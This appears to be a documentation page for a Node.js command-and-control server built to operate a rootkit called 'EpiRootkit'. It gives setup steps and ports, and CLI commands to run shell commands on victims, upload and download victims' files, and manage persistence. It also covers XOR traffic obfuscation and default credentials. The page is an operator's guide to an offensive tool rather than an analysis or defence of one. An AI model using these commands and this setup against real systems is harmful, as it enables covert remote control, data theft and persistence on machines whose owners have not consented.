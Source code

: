 ```yaml
---
title: "Overview"
description: "C2 server architecture and capabilities"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 31
---
```


# Attacking Program Overview

Professional C2 (Command & Control) server built with Node.js providing CLI interface for managing EpiRootkit connections.

## Quick Start

```bash
# Install dependencies and start
cd attacking_program
pnpm install
pnpm start

# Server output
# ✓ Server started on port 4444
# ✓ Web interface started on port 3000
```

## Architecture

### Core Components
- **CLI Interface**: Vorpal.js-based interactive command system
- **C2 Server**: TCP server handling rootkit connections on port 4444
- **Web Interface**: Express.js REST API with Socket.IO on port 3000
- **Client Manager**: Connection lifecycle and authentication management
- **Event System**: Real-time event handling and logging

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm package manager
- **CLI Framework**: Vorpal.js for interactive commands
- **Web Server**: Express.js with Socket.IO for real-time updates
- **Encryption**: XOR cipher implementation (configurable)

## Core Features

### Client Management
```bash
ls                          # List connected clients
auth <client> <password>    # Authenticate with SHA-512 verification
status <client>             # Get comprehensive rootkit status
keepalive <client>          # Check connection health
```

### Remote Operations
```bash
exec <client> <command>                     # Execute shell commands
upload <client> <local> [remote]            # Upload files to victim
download <client> <remote> [local]          # Download files from victim
```

### Configuration Management
```bash
config <client>             # Interactive configuration menu
persist <client> [action]   # Manage persistence mechanisms
```

## Authentication System

**SHA-512 Password Authentication:**
1. C2 sends plaintext password via `auth` command
2. Rootkit hashes password and compares with stored hash
3. Session established with 1-hour timeout
4. Rate limiting: 5 attempts per 60 seconds

**Default Credentials:**
- Password: `password`
- Hash: `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86`

## Configuration

### Server Settings (`config.env`)
```bash
C2_PORT=4444                    # C2 server port
WEB_PORT=3000                   # Web interface port
ENCRYPTION_KEY=0123456789abcdef0123456789abcdef  # 32-char hex key
ENABLE_ENCRYPTION=true          # XOR encryption toggle
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86
```


## Security Features

- **Authentication**: SHA-512 hashing with brute force protection
- **Encryption**: Optional XOR cipher for traffic obfuscation
- **Session Management**: Automatic timeout and cleanup
- **Access Control**: Commands require authentication
- **Connection Health**: Automatic stale client detection